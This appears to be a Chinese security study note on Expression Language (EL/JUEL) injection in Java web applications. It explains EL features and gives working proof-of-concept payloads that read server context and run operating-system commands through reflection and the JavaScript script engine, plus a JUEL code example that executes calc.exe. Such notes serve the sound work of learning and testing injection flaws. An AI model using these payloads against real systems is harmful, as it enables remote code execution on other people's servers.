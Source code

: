 # 表达式注入

## 0x00 Introduction

>EL (表达式语言,Expression Language)，它是JSP2.0中引入的一个新内容。通过EL可以简化在JSP开发中对对象的引用，从而规范页面代码，增加程序的可读性及可维护性。EL为不熟悉Java语言页面开发的人员提供了一个开发Java Web应用的新途径。

EL表达式是JSP的内置语言。

尽管EL是JSP 2.1的一部分，但EL API已被分离到包javax.el中，并且已删除了对核心JSP类的所有依赖关系。进而引进了JUEL概念。

>JUEL（Java Unified Expression Language）是统一表达语言轻量而高效级的实现，具有高性能，插件式缓存，小体积，支持方法调用和多参数调用，可插拔多种特性。



## 0x01 EL

EL表达式主要功能如下：

- 获取数据：EL表达式主要用于替换JSP页面中的脚本表达式，以从各种类型的Web域中检索Java对象、获取数据（某个Web域中的对象，访问JavaBean的属性、访问List集合、访问Map集合、访问数组）；
- 执行运算：利用EL表达式可以在JSP页面中执行一些基本的关系运算、逻辑运算和算术运算，以在JSP页面中完成一些简单的逻辑运算，例如${user==null}；
- 获取Web开发常用对象：EL表达式定义了一些隐式对象，利用这些隐式对象，Web开发人员可以很轻松获得对Web常用对象的引用，从而获得这些对象中的数据；
- 调用Java方法：EL表达式允许用户开发自定义EL函数，以在JSP页面中通过EL表达式调用Java类的方法；

基本语法推荐阅读：[浅析EL表达式注入漏洞 0x02基本语法](https://xz.aliyun.com/t/7692)

## 0x02 EL注入
推荐阅读:
- [浅析EL表达式注入漏洞](https://xz.aliyun.com/t/7692)

JSP表达式外部部分或全部可控。
### 通用PoC
```java
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}
//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
//文件头参数
${header}
//获取webRoot
${applicationScope}
//执行命令-反射
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc").getInputStream())}
//执行命令-反射+JSEngine
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator.app')")}

```
### JUEL危险函数

jar包：
- juel-api-2.2.7
- juel-spi-2.2.7
- juel-impl-2.2.7

危险函数：
- `javax.el.ExpressionFactory.createValueExpression()`参数传入
- `javax.el.ValueExpression.getValue()`

例子：
```java
import de.odysseus.el.ExpressionFactoryImpl;
import de.odysseus.el.util.SimpleContext;

import javax.el.ExpressionFactory;
import javax.el.ValueExpression;

public class Test {
    public static void main(String[] args) {
        ExpressionFactory expressionFactory = new ExpressionFactoryImpl();
        SimpleContext simpleContext = new SimpleContext();
        String exp = "${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'calc.exe')}";
        ValueExpression valueExpression = expressionFactory.createValueExpression(simpleContext, exp, String.class);
        System.out.println(valueExpression.getValue(simpleContext));
    }
}
```


## Ref
- https://xz.aliyun.com/t/7692